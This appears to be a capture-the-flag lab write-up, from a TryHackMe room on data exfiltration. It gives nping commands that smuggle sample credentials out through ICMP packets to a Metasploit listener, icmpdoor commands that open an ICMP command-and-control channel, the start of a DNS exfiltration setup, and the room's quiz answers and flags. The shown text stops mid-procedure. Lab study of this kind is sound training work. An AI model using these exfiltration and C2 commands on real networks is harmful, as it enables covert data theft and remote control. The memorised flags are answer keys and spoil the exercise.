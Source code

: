 ```shell
#we need to send BOF trigger from icmp.thm.com machine, using nping tool
#for the msf exploit to work
sudo nping --icmp -c 1 10.10.224.91 --data-string "BOFfile.txt"
#msf identifies the trigger value and waits for data

sudo nping --icmp -c 1 10.10.224.91 --data-string "admin:password"

sudo nping --icmp -c 1 10.10.224.91 --data-string "admin2:password2"

sudo nping --icmp -c 1 10.10.224.91 --data-string "EOF"
#after EOF, msf generates lootfile with path
```

```shell
#icmp c2 communication
#using icmpdoor tool

#on the icmp.thm.com machine, execute the icmpdoor binary
sudo icmpdoor -i eth0 -d 192.168.0.133

#now in JumpBox machine, execute the icmp-cnc binary
sudo icmp-cnc -i eth1 -d 192.168.0.121
#this starts a c2 channel
#we can enter commands and it will show us the output
#use 'getFlag' command to get the flag
```

```markdown
1. In which ICMP packet section can we include our data? - data

2. Follow the technique discussed in this task to establish a C2 ICMP connection between JumpBox and ICMP-Host. Then execute the "getFlag" command. What is the flag? - THM{g0t-1cmp-p4k3t!}
```

## DNS Configurations

```shell
#configure DNS according to task instructions
#for flag
dig +short flag.thm.com 
```

```markdown
1. Once the DNS configuration works fine, resolve the flag.thm.com  domain name. What is the IP address? - 172.20.0.120
```

## Exfiltration over DNS

```shell
#dns data exfiltration

#on Attackbox
#connect to attacker machine
ssh thm@10.10.224.91 -p 2322

sudo tcpdump -i eth0 udp port 53 -v
#capture network traffic for incoming UDP/53 packets

#now, connecting to victim2 machine on Attackbox
ssh thm@10.10.224.91 -p 2122

cat task9/credit.txt
#data to be exfiltrated

#we need to encode data, then split it
```